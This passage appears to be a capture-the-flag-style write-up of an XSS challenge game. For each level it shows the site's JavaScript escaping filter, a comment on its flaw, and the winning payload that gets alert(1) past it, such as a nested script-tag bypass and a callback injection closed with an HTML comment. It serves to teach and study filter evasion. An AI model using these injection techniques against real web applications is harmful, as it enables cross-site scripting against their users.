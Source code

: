 ### comment
it's escaping the end of scripts by replacing it with blank, but it's not double passing the string, so we'll put in a script end inside a script end!

### Win with:
```
</scrip</scriptt><script>alert(1)//
```
35 characters


## Callback ][
### filter
```javascript
function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/);

  if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/\//g, '\\/');
  return "<script>" + thing[0] + "(" + json +")</script>";
}
```

### comments
seems fairly similar to the previous callback, but we can't end the JS with `//` comments, because they get escaped.
So how do we make valid syntax?
Well, lets use html comments!

### Win with:
```
'#';alert(1)<!--
```
16 characters


## Skandia ][
### filter
```javascript
function escape(s) {
  if (/[<>]/.test(s)) return '-';

  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```
### comments
Looks like they stopped our ultra short method by blocking `<>`, but not the more obfuscated one.
__note:__ At this time I realised a few optimisations I could put in to trim a few characters.
